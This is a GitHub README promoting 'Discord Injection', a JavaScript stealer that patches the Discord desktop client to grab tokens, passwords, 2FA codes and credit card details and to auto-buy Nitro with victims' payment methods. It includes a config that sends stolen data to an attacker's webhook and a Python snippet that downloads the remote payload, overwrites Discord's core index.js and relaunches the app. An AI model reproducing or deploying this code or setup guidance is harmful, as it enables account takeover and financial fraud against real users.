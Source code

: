 <h1 align="center">
  Discord Injection 💉
</h1>

<h2 align="center">
  Steal all critical info from victims!
</h2>

<p align="center">
  Discord Injection is a simple .js script that you can use for your own malware to inject into discord which comes with many features!
</p>

<p align="center"> 
  <kbd>
<img src="https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord%20atom.png"></img>
  </kbd>
</p>

<p align="center">
  <img src="https://img.shields.io/github/languages/top/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://img.shields.io/github/last-commit/Rdimo/Discord-Injection?style=flat-square" </a>
  <img src="https://sonarcloud.io/api/project_badges/measure?project=Rdimo_Injection&metric=ncloc" </a>
  <img src="https://img.shields.io/github/stars/Rdimo/Discord-Injection?color=7F9DE0&label=Stars&style=flat-square" </a>
  <img src="https://img.shields.io/github/forks/Rdimo/Discord-Injection?color=7F9DE0&label=Forks&style=flat-square" </a>
</p>

<h4 align="center">
  <a href="https://cheataway.com">🌌・Discord</a>
  <a href="https://github.com/Rdimo/Discord-Injection#configure-discord-injection">💉・Setting up the injection</a>
  <a href="https://github.com/Rdimo/Discord-Injection#license">💻・License</a>
  <a href="https://github.com/Rdimo/Discord-Injection#changelog">📜・ChangeLog</a>
</h4>

<h2 align="center">
  Discord-Injection was made by

Love ❌ code ✅

</h2>

---

## :fire: Features

✔ Customizable \
✔ Obfuscated (not advanced but the best it can go cuz of string replacement) \
✔ Works with [Discord-Webhook-Protector](https://github.com/Rdimo/Discord-Webhook-Protector) \
✔ If Injection got removed it injects again! \
✔ Works on both Windows and Darwin! \
✔ Auto buy nitro! (toggleable) \
✔ Pings on info stolen! (toggleable) \
✔ Discord 2FA Codes for accounts with 2FA enabled. \
✔ Disables login thru QR code! \
✔ Grabs Token, Nitro status, Billing Status + more! \
✔ Grabs Email & Password for their account. (updates if they change it) \
✔ Grabs whole credit card (if they enter one while injection is in) \
✔ Notifies when paypal account has been added!

---

## 🚀・Configure Discord Injection!

You'll need [Git](https://git-scm.com) to start off!

```sh-session
git@2.17.1 or higher
```

### 1. From your command line, clone and configure discord-injection:

```bash
# Clone this repository
$ git clone https://github.com/rdimo/Discord-injection.git

```

Copy the raw url of the [injection](./injection.js) and then paste it in your code

[forking](https://github.com/Rdimo/Discord-injection/fork) this repo is also a viable way but make sure to go into the code and change the config to your preferences! ⇣⇣⇣

```javascript
const config = {
    webhook: '%WEBHOOK%', //your discord webhook there obviously or use the api from https://github.com/Rdimo/Discord-Webhook-Protector
    webhook_protector_key: '%WEBHOOK_KEY%', //your base32 encoded key IF you're using https://github.com/Rdimo/Discord-Webhook-Protector
    auto_buy_nitro: true, //automatically buys nitro when the victim adds credit card or paypal account or tries to buy nitro themselves
    ping_on_run: false, //sends whatever value you have in ping_val when you get a run/login
    ping_val: '@everyone', //change to @here or <@ID> to ping specific user if you want, will only send if ping_on_run is true
    embed_name: 'Discord Injection', //name of the webhook thats gonna send the info
    embed_icon: 'https://raw.githubusercontent.com/Rdimo/images/master/Discord-Injection/discord atom.png'.replace(/ /g,'%20'), //icon for the webhook thats gonna send the info
    embed_color: 8363488, //color for the embed, needs to be hexadecimal (just copy a hex and then use https://www.binaryhexconverter.com/hex-to-decimal-converter to convert it)
    injection_url: 'https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js', //injection url for when it reinjects

    ... //rest of the config you should NOT touch
};
```

> Don't quite understand how to set it up? [Click me!](https://github.com/Rdimo/Discord-Injection#want-to-use-it-but-dont-know-shit-about-coding)

## 🎈・Code example

Example of how you can implement this injection into your own malware

```py
import os
import re
import requests
webhook = 'https://discord.com/apwebhooks/123456789/abcdefghijklmnopqrstuvwxyz'

def inject():
    for _dir in os.listdir(os.getenv('localappdata')):
        if 'discord' in _dir.lower():
            for __dir in os.listdir(os.path.abspath(os.getenv('localappdata')+os.sep+_dir)):
                if re.match(r'app-(\d*\.\d*)*', __dir):
                    abspath = os.path.abspath(os.getenv('localappdata')+os.sep+_dir+os.sep+__dir)
                    f = requests.get("https://raw.githubusercontent.com/Rdimo/Discord-Injection/master/injection.js").text.replace("%WEBHOOK%", webhook)
                    with open(abspath+'\\modules\\discord_desktop_core-3\\discord_desktop_core\\index.js', 'w', encoding="utf-8") as indexFile:
                        indexFile.write(f)
                    os.startfile(abspath+os.sep+_dir+'.exe')

if __name__ == "__main__":
    inject()
```

## 👴・Want to use it but don't know shit about coding?

No worries, [Hazard-Token-Grabber-V2](https://github.com/Rdimo/Hazard-Token-Grabber-V2) is a stealer that uses this injection + steals more!

## 🤝・Contributing

Any ideas on how to improve the injection? Or just think you got something you want to see being added? [Open a new issue](https://github.com/rdimo/Discord-injection/issues)!

Found a bug? please please please [Open a new issue](https://github.com/rdimo/Discord-injection/issues) and tell me about it so I can fix it asap

## 🎉・Upcoming/enhancements

- Grab ip, name etc...
- Grab paypal pass,email (it's possible but only thru a debug func which is hard)
- More settings

## :seedling:・Inspiration/Credits

Discord-Injection is heavily inspired by [stanleys](https://github.com/Stanley-GF) injection but has been upgraded quite alot since \
A few snippets are from his injection so huge cred to stan

- [his injection](https://github.com/Stanley-GF/Arizona/blob/main/src/injection/injection-clean.js)

## 📄・License

This project is licensed under the GNU General Public License v3.0 License - see the [LICENSE.md](./LICENSE) file for details

・Educational purpose only and all your consequences caused by you actions is your responsibility

・Selling this **Free** injection is forbidden

・If you make a copy of this/or fork it, it **must** be open-source and have credits linking to this repo

## 💭・ChangeLog

```diff
v0.1.5 ⋮ 2022-06-13
+ bumped up discord_desktop_core version

v0.1.4 ⋮ 2022-05-22
+ Added support for https://github.com/Rdimo/Discord-Webhook-Protector
+ Additionaly formatting

v0.1.3 ⋮ 2022-05-22
+ Bug fixes + cleaner code

v0.1.2 ⋮ 2022-05-18
+ Minor fixes + cleanup

v0.1.1 ⋮ 2022-05-14
+ Bypasses discords Control-Access-Origin update

v0.1.0 ⋮ 2022-05-13
+ better data parser

v0.0.9 ⋮ 2022-04-17
+ Discord uses discord_desktop_core-3 instead of discord_desktop_core-2 now

v0.0.8 ⋮ 2022-04-15
- Removed 2fa code grabbing since discord fixed it

v0.0.7 ⋮ 2022-04-14
+ Accidently had 2 hypesquad brilliance

v0.0.6 ⋮ 2022-04-13
+ Discriminator doesn't get mixed up with the ID

v0.0.5 ⋮ 2022-04-08
+ Formatting
+ bug fixes

v0.0.4 ⋮ 2022-03-31
+ Cleanup

v0.0.3 ⋮ 2022-03-31
+ Fixed Typo

v0.0.2 ⋮ 2022-03-30
+ Added new seperate function that sends out when a nitro code has been purchased
+ Fixed 2fa code grabber
+ Fixed auto nitro buyer

v0.0.1 ⋮ 2022-03-28
+ Added BetterDiscord support
+ Added dead code into obfuscation to protect even more
- Re-added status code checker since I Accidently removed it
```
